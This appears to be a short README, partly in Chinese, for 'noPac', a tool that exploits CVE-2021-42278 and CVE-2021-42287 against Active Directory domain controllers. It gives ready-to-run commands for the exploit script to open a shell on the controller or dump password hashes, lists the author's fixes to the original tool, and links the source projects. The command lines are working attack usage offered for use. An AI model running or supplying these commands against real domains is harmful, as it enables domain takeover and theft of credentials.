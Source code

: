 # noPac
Exploiting CVE-2021-42278 and CVE-2021-42287

# 使用
```
pip3 install -r requirements.txt
# GetShell
python3 exp.py "domain/Username:Passw0rd" -dc-ip 192.168.0.254 -shell
# DumpHash
python3 exp.py "domain/Username:Passw0rd" -dc-ip 192.168.0.254 -dump
```

# 修改
- 修改了原版作者在Kali下的smbexec等执行路径问题
- 修改模拟上线主机名

# 参考
https://github.com/cube0x0/noPac
https://github.com/WazeHell/sam-the-admin
